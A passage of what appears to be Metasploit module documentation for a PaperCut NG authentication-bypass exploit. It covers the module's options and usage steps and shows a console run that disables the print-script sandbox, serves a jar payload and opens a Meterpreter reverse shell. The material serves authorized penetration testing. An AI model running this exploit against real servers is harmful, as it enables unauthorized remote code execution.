 *Caveat: When first starting the server or after completing the installation, at least one user needs to login. I think this has something
to do with getting the license manager into the correct state (i.e. loading the license). When this is not yet done then the Authentication
Bypass is still functional leading to a "Target Vulnerable" message during `check`. However, when attempting to select the
"\[Template Printer\]" a redirect to the About page occurs instead. Ensuring a logon can be done by using the "Login" button presented on
the SetupCompleted page used for the bypass. This scenario is not covered in the module as it is unlikely to be an issue on any network
that is currently in use.*


## Options

### TARGETURI

Path to the papercut application. Default is `/app`.

### HTTPDELAY

Number of seconds the web server will wait before termination. Default is 10.


## Verification Steps

1. `./msfconsole -q`
2. `use multi/http/papercut_ng_auth_bypass`
3. `set RHOSTS [target]`
4. `run`

## Scenarios

### Tested on Linux x64 with PaperCut NG Version 22.0.8.65201
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node0cwd0h7aut351pzjcifwvdyg25.node0
[+] The target is vulnerable.
[*] Setting server option 'print-and-device.script.enabled' to 'Y') was 'N'
[*] Setting server option 'print.script.sandboxed' to 'N') was 'Y'
[*] Using URL: http://10.0.4.101:8080/rYrjrI0
[*] Server started.
[*] Sending payload for requested uri: /rYrjrI0.jar
[*] Sending payload for requested uri: /rYrjrI0.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:46224) at 2023-05-11 01:13:29 +0000
[*] Server stopped.
[*] rolling back 'print.script.sandboxed' to 'Y'
[*] Setting server option 'print.script.sandboxed' to 'Y') was 'N'
[*] rolling back 'print-and-device.script.enabled' to 'N'
```